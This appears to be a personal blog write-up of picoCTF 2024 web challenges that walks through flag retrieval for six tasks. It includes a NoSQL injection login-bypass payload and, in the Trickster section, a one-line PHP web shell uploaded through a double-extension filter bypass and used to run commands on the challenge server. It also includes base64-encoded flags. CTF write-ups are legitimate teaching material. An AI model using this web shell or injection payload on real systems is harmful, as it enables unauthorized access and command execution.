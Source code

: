 ```yaml
---
author: krill
published: true
tags:
  - ctf
  - web
title: PicoCTF_2024 Web Writeup
article_header:
  type: cover
---
```

I made a compilation of all the web challenges I solved during the just concluded picoCTF.
<!--more-->
Most of the challenges were easy and straight forward except the last challenge which I wouldn't be documenting here. 

## Bookmarklet
![](/images/CTF/pico2024/web/chall1.png)

Visiting the challenge instance, you get the following . .
![](/images/CTF/pico2024/web/book1.png)
you can solve the challenge by simply copying the javascript code in the form and pasting it in the browser console.

The code basically decrypts the encrypted data stored in the `encryptedflag` variable using the key `picoctf` and alerts the result which should contain the decrypted flag on the screen.

![](/images/CTF/pico2024/web/js.png)

## WebDecode
![](/images/CTF/pico2024/web/chall2.png)

We get this page when we visit the challenge instance.
![](/images/CTF/pico2024/web/decode.png)

 Clicking on the about page
 ![](/images/CTF/pico2024/web/about.png)

Inspecting the page (`ctrl` + `u`), shows the flag encoded in base64

![](/images/CTF/pico2024/web/base64.png)
you can easily decode that using https://cyberchef.io/ or using the base64 tool on your linux terminal

```
➜ echo -n 'cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9' | base64 -d
```


## IntroToBurp
![](/images/CTF/pico2024/web/chall3.png)

You get a registration form when you launch the challenge instance. 

Go ahead and create an account
![](/images/CTF/pico2024/web/register.png)

You get redirected to a dashboard where you are required to provide some form of `OTP` for `2fa` authentication. 

intercept the request with `burpsuite` and mangle the `otp` parameter - this should give you the flag. 
![](/images/CTF/pico2024/web/mangle.png)

## Unminify
![](/images/CTF/pico2024/web/chall4.png)

You can easily view the page source (`ctrl` + `u`) and search for the string `picoCTF{`, you should get the flag : )

## No Sql Injection
![](/images/CTF/pico2024/web/chall5.png)

Launching the instance, you are given a login page - from the name of the challenge, we can tell that we need to perform some form of `no-sql` injection. 

Using the payload below, I was able to bypass the user login

```
{"$ne":""}
```

Intercepting the request with `burpsuite` and sending to `repeater`, we get a response from the server containing a user detail which also includes the token which is the flag encoded in base64. 

![](/images/CTF/pico2024/web/nosql.png)

```
➜ echo -n "cGljb0NURntqQmhEMnk3WG9OelB2XzFZeFM5RXc1cUwwdUk2cGFzcWxfaW5qZWN0aW9uX2EyZTBkOWVmfQ==" | base64 -d 
```


## Trickster
![](/images/CTF/pico2024/web/chall6.png)

We are given a page that allows us to upload files to the server 
![](/images/CTF/pico2024/web/upload.png)

Using `wapalyzer` we can check what the website was built with in order to know what language the payload should be in. 

![](/images/CTF/pico2024/web/wap.png)

we should be able to upload a php payload in order to get remote-code-execution on the server.

uploading the php file, I got the following error : ( 

![](/images/CTF/pico2024/web/error.png)

seems the filter put in place checks that the file contains `.png`, so I went ahead to create another file `file.png.php` with the following payload.

```php
PNG;

<?php system($_GET['cmd']); ?> 
```

This was successful and we should be able to access the payload by visiting `/uploads/file.png.php`

![](/images/CTF/pico2024/web/image.png)

the flag was stored in a `.txt` file in the web root directory.
```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=ls -la ../
```

you can just read that : )

```
atlas.picoctf.net:59649/uploads/file.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```

_sayonara~🍻_



